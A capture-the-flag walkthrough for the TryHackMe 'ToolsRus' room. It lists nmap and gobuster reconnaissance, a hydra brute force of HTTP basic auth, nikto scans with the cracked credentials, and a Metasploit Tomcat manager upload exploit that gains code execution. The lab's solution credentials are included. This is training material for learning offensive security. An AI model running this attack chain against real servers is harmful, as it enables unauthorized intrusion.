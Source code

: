 # ToolsRus

**Room Link:** [https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (2) (8).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l bob -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top1000.txt $VICTIM http-get /protected
```

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:80/manager/html
```

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:1234/manager/html 
```

<figure><img src="../../.gitbook/assets/image (11) (4) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfconsole 
```

**Msfconsole**

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.98.194
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
run
```

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

































